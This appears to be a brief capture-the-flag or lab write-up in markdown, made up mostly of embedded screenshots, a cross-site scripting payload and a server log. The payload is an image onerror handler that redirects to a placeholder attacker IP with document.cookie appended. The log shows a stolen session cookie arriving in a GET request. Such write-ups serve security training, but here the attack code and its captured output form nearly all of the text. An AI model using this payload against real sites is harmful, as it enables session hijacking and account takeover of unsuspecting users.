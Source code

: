 
![[IMG-20251019010816231.png]]

![[IMG-20251020020106833.png]]

Payload: 
```javascript
<img src=1 onerror="document.location='http://<YOUR-IP>/steal/'+ document.cookie">
```
![[IMG-20251019010758982.png]]
```bash
10.10.11.88 - - [20/Oct/2025 01:59:12] "GET /session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aPV7TA.5f9IJS6TqVJVOBtjrOaf32LME_k HTTP/1.1" 404 -
```

![[IMG-20251020020036016.png]]

![[IMG-20251020020120150.png]]

